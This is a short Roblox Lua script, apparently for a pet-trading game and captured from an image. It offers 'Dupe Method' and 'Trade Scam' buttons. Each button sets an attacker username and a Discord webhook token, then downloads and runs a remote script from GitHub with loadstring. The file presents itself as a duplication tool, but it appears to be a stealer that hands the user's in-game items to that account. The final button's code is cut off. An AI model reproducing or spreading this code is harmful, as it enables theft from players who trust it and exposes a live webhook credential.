 local Dupe = X.New({

	Title = "Dupe"

})

local A = Dupe.Button({

	Text = "Gloom's Dupe Method",

	Callback = function()

	UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local A = Dupe.Button({

	Text = "Wah's Dupe Method",

	Callback = function()

	UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

	end

})

local Trade = X.New({

	Title = "Trade Scam"

})

local A = Trade.Button({

	Text = "Switch Pets",

	Callback = function()

		UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1040669953226985653/2uTnd0Eo7dmScJh-Z2qVKJ_FMZ6XR-1aY9zih595e1VB3mBPXzz4nIJwr2_XH1RwJ1oU"

 

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()
